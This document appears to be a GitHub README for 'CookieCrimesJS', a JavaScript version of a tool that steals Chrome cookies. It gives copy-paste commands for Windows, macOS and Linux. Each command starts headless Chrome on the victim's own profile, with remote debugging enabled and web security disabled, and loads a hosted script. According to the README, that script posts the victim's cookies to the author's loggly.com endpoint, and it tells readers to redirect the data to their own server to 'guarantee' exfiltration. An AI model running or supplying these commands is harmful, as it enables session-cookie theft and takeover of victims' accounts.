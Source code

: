 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently hardcoded to post the script output (your sensitve cookies) to my own loggly.com URL. You should host it on your own server and modify the location where the cookies get sent.

Thank you to @shellsterdude for introducing me to cookie_crimes and for the hints, tips and help testing he gave along the way.

Note: Running this command leaves a headless browser behind, causing non-deterministic results if you run it again. You should kill the chrome processes associated with the headless browser or restart the OS before running this command a second time to guarantee your successfull exfil of cookies.

# Windows

## Windows 10

### 64 Bit

```"%PROGRAMFILES(X86)%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

### 32 Bit

```"%PROGRAMFILES%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

## Windows 7

```"%localAppData%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# Linux

```google-chrome --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="~/.config/google-chrome/default" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```
